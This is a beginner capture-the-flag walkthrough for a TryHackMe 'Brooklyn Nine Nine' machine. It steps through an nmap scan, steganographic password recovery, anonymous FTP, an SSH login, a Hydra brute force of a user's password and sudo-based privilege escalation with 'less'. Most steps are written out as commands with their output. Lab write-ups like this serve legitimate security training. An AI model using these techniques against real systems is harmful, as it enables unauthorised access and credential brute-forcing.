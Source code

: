 
# Brooklyn Nine Nine CTF Writeup | Tryhackme

This is a **Brooklyn Nine Nine** themed CTF, designed for beginners. Let’s jump into it and check out this machine.



## Nmap Scan

Scanning the machine with Nmap:

```bash
nmap -sC -sV -p21,22,80 -vv -oN nmap-detailed IP
````

### Results

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.4.1.58
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

We have three interesting services:

* **Apache web server (80)**
* **Anonymous FTP (21)**
* **SSH (22)**

---

## Enumeration

### Port 80 - Web Server

* The website displays a **B99 banner**.
* Looking at the source code, we find an image: `brooklyn99.jpg`.

```bash
wget http://IP/brooklyn99.jpg
```

* The page hints at **steganography**.

We use `stegcracker` to analyze the image:

```bash
stegcracker brooklyn99.jpg ~/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
```

**Result:**

```
Successfully cracked file with password: admin
Your file has been written to: brooklyn99.jpg.out
```

```bash
cat brooklyn99.jpg.out
```

Output:

```
Holts Password:
fluffydog12@ninenine
```

So we have **credentials for SSH**.

---

### Port 21 - Anonymous FTP

Login using:

```bash
ftp IP
# username: anonymous
# password: anonymous
```

We find a file: `note_to_jake.txt`.

Contents:

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

---

### Port 22 - SSH

Using Holt’s credentials:

```bash
ssh holt@IP
# password: fluffydog12@ninenine
```

We get access to Holt’s account. Inside, we find:

* `user.txt` ✅ (user flag)
* `nano.save` (restricted to root)

Checking `/etc/passwd`, we discover two more potential users: **jake** & **amy**.

---

## Privilege Escalation

### Brute-forcing Jake’s Password

We try brute-forcing Jake’s SSH login:

```bash
hydra -l jake -P ~/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt ssh://IP
```

**Result:**

```
[22][ssh] host: IP   login: jake   password: 987654321
```

We can now login as Jake:

```bash
ssh jake@IP
# password: 987654321
```

### Sudo Privileges

Checking Jake’s privileges:

```bash
sudo -l
```

Jake has sudo access for `less`. Using this, we can read root’s flag:

```bash
sudo less /root/root.txt
```

Flag:

```
Here is the flag: xxxxxxxxxxxxxxxxxxxxxxxxxx
```

✅ **Root access achieved!**

---

## Alternate Method

* From Holt’s account, running `sudo -l` shows sudo access for `nano`.
* Escalation to root can also be done using **nano**.

---

## Conclusion

We successfully rooted the **Brooklyn Nine Nine CTF** box by:

1. Enumerating services with Nmap
2. Extracting Holt’s SSH credentials via steganography
3. Using Anonymous FTP to confirm Jake’s weak password
4. Brute-forcing Jake’s account with Hydra
5. Escalating privileges to root using `less` (or `nano`)

🎉 **Box pwned!**

```
```

